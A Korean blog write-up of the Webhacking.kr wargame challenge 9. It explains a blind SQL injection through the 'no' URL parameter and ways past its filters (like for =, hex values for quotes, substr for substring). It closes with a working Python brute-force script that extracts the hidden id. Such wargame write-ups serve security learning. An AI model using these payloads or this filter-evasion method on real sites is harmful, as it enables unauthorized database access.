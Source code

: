 ```yaml
---
title: "Webhacking.kr challenge(old) 9th Write-Up"
tags: [blindsqli, wargame]
categories: [sqli]
---
```


Webhacking.kr 9 Write-Up
------------------------

## **문제 분석**

이 문제의 경우 많은 걸 배울 수 있던 문제였습니다. 여태까지 해왔던 SQL Injection의 경우 입력 form을 target으로 진행된 반면, 
이번의 경우 정말 blind SQL Injection의 정석이라고 생각될 정도의 문제였습니다.

먼저 문제를 클릭하면 다음과 같은 화면을 먼저 볼 수 있었습니다.

![webhacking_kr_9_main](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/webhacking_kr_9_main.png)

password를 제출하는 입력칸과 1, 2, 3 각각 hyperlink를 확인할 수 있었습니다. 먼저 각각의 hyperlink를 눌러서 확인해보면 1번은 Apple, 2번은 Banana가 출력되며 
3번의 경우 문제 해결 조건과 관련있을 법한 내용을 출력하였습니다.

![webhacking_kr_9_3](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/webhacking_kr_9_3.png)

사진을 보면 알 수 있듯이 Secret이라고 되어 있으며 id, no 두 개의 column이 있고 no 3의 id가 password라고 되어 있습니다.

가장 먼저 찾을 수 있던 것은 no에 관한 것인데 hyperlink의 숫자가 URL의 GET 인자로 전달해주는 숫자와 일치하는 것을 확인할 수 있었습니다.

>*https://webhacking.kr/challenge/web-09/?no=3*
3을 눌러서 접속하였을 때의 URL

## **풀이 방법 찾기**

이 이후에 제대로 갈피를 잡지 못하고 main page에서 확인할 수 있던 입력 form에서 SQL Injection을 실시하였으나 이는 해결에 접근할 수 없었습니다.

풀이 방법을 찾아본 결과 입력 form이 아닌 no 인자를 전달하는 곳을 통해서 blind SQL Injection을 수행할 수 있었습니다.

풀이 방법을 보고 정말 정석적인 blind SQL Injection이라고 느끼게 된 점이 no 값에 1 ~ 3이 아닌 다른 값이 전달될 경우 제대로 페이지가 로딩 되지 않는 점을 이용하여 Injection을 수행하는 것이었습니다.

또한 필터링 되는 문자가 있을 경우 Access Denied 라는 문구가 출력되었습니다. 이를 위해서는 if문을 사용하였습니다.

- **if문 구조**

if문의 구조는 if(A, B, C)로 A의 결과가 참일 경우 B를, 거짓일 경우 C를 반환합니다. 이 문제의 경우 B에는 3, C에는 1, 2, 3이 아닌 다른 값을 입력하여 참과 거짓을 구분하였습니다.

여기서 비교를 위한 연산자인 =이 필터링 되어 like를 사용하여 값을 비교하였습니다. 또한 쿼리문에 공백이 있을 경우에도 Access Denied가 출력되었는데 이는 공백을 필터링한 것이 아닌 % 문자가 필터링 되기 때문에 공백이 URL Encoding되어 발생되는 것이었습니다.

따라서 다음과 같은 형식으로 해야 필터링을 우회할 수 있었습니다.

```python
?no=if(length(id)like(0),3,0)
```

이 때 페이지의 html code를 살펴보았을 때 form의 max length가 11이었기에 1부터 11까지를 범위로 잡고 진행하였습니다.

* * *

id의 길이는 11글자였으며 최종적으로 문자열을 알아낼 필요가 있었습니다. 자주 사용되는 함수인 substring을 입력하였을 때는 필터링 되었으나 substr로 입력할 경우 필터링 되지 않았기에 사용할 수 있는 것을 확인할 수 있었습니다.

문제는 %가 필터링 되기 때문에 single quotes와 double quotes도 사용할 수 없었기에 이를 우회할 방법이 필요했습니다. 또한 문자열과 관련되서 자주 사용되는 char, ascii, ord 함수도 모두 필터링 되었기 때문에 다른 방법을 사용할 필요가 있었는데 hex 값을 사용할 경우 query가 가능하다는 것을 알 수 있었습니다.

문자열을 추출하는 과정에서 %와 _ 문자도 포함되어 출력되었는데 이를 위해서 해당 문자들의 경우 생략하도록 작성하였습니다. 또한 대/소문자 구분을 하지 않아서 결과적으로 정상적인 결과는 아닌 값을 알 수 있을 정도의 결과물이 출력되었습니다.

작성한 코드는 다음과 같습니다.

```python
#!/usr/bin/python

import requests as req

url = "https://webhacking.kr/challenge/web-09/"
cookies = {"PHPSESSID":"1sufshmhf7a3l4p5pi8mh8nepq"}
ref = "Secret"
answer = ""

for a in range(1, 11+1):
    params = "?no=if(length(id)like({}),3,0)".format(a)
    requrl = url+params
    response = req.get(requrl, cookies=cookies)
    if ref in response.text:
        print("id length is \"{}\"".format(a))

for i in range(1, 11+1):
    for j in range(33, 126+1):
        if chr(j) == '%' or chr(j) == '_':
            continue
        key = hex(j)
        params = "?no=if(substr(id,{},1)like({}),3,0)".format(i, key)
        requrl = url+params
        response = req.get(requrl, cookies=cookies)
        if ref in response.text:
            answer += chr(j)


print("answer is \"{}\"".format(answer))
``` 
